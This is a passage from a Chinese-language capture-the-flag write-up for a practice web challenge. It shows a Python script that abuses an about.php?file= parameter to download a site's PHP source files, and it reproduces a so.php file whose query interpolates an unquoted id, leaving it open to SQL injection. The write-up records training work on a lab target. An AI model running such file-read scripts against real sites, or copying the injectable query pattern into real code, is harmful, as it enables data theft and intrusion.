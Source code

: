 这样就OK啦
flag: ntcf{union_select_is_wtf}

* * *

## **31.综合题2（400）**

终于把这题给搞懂了，还看了别人的题解
1. 第一步

点击本cms说明

出来一堆文件，发现file后面可接文件名，并将文件荡出来，于是写了python脚本，开始荡文件

```html
http://cms.nuptzj.cn/about.php?file=sm.txt
```

```python
# -*- coding: utf-8 -*-
import requests
import HTMLParser
import codecs
s=['say','config','passencode','index','so','antiinject','antixss']

h = HTMLParser.HTMLParser()
for i in s:
    url="http://cms.nuptzj.cn/about.php?file={0}.php".format(i);
    f=codecs.open(str(i)+'.php','w+','utf-8')#codecs可指定文件编码
    s=requests.get(url)
    s.encoding='utf-8'
    f.write(h.unescape(s.text))#反转意html实体
```

下面看看文件

```php
so.php
<?php
if($_SERVER['HTTP_USER_AGENT']!="Xlcteam Browser"){
echo '万恶滴黑阔，本功能只有用本公司开发的浏览器才可以用喔~';
    exit();
}
$id=$_POST['soid'];
include 'config.php';
include 'antiinject.php';
include 'antixss.php';
$id=antiinject($id);
$con = mysql_connect($db_address,$db_user,$db_pass) or die("不能连接到数据库！！".mysql_error());
mysql_select_db($db_name,$con);
$id=mysql_real_escape_string($id);
$result=mysql_query("SELECT * FROM `message` WHERE display=1 AND id=$id");
$rs=mysql_fetch_array($result);
echo htmlspecialchars($rs['nice']).':<br />&nbsp;&nbsp;&nbsp;&nbsp;'.antixss($rs['say']).'<br />';
mysql_free_result($result);
mysql_free_result($file);
mysql_close($con);
?>
```
